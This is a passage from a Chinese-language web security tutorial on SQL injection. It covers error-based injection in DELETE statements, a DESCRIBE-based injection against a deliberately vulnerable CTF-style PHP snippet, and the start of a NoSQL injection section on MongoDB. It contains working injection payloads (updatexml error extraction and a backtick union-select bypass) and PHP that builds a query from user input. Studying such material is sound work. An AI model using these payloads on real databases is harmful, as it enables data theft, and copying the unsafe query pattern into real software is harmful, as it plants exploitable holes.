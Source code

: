 #### [](#1342-delete-%E6%8A%A5%E9%94%99)13.4.2 DELETE 报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>delete from wp_user_ where id=21 and updatexml(1,concat(0x7e,database()),1)<br>``` |

### [](#135-descibe-%E6%B3%A8%E5%85%A5)13.5 DESCIBE 注入

> {DESCRIBE | DESC} table\_name \[col\_name | wild\]
> 
> DESCRIBE 提供有关一个表的列信息。col\_name 可以是一个列名或是一个包含 SQL 通配符字符 `%`和 `_` 的字符串。

源代码：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```php<br><?php<br>require("config.php");<br>$table = $_GET['table']?$_GET['table']:"test";<br>$table = Filter($table);<br>mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();<br>$sql = "select 'flag{xxx}' from secret_{$table}";<br>$ret = sql_query($sql);<br>echo $ret[0];<br>?><br>``` |

desc 可以接受两个参数，可以过掉第一个检测。

反引号在 union select 中可以当做空格。

payload:

?table=test\`\` union select database() limit 1 offset 1

## [](#14-nosql-%E6%B3%A8%E5%85%A5)14 NoSQL 注入

### [](#141-%E5%AE%9A%E4%B9%89)14.1 定义

泛指非关系型的数据库。随着互联网 web2.0 网站的兴起，在高可用，高并发压力下，传统数据库已经不能满足需求，用于解决大数据应用和超大规模数据存储的问题。

主要代表：MongDB、 Redis、 Memcache

以 MongDB 为例，它是一个面向文档存储的数据库，以键值对形式存在

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```json<br>{<br>  name: "Geekby",<br>  age: 26,<br>  status: "A",<br>  groups: ["news", "sports"]<br>}<br>``` |

### [](#142-%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E4%B8%80)14.2 注入原理一

1.  基本语法

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108091831.png-water_print](assets/1699411534-2815213944757847118b2d1e4aae45f1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108091831.png-water_print")
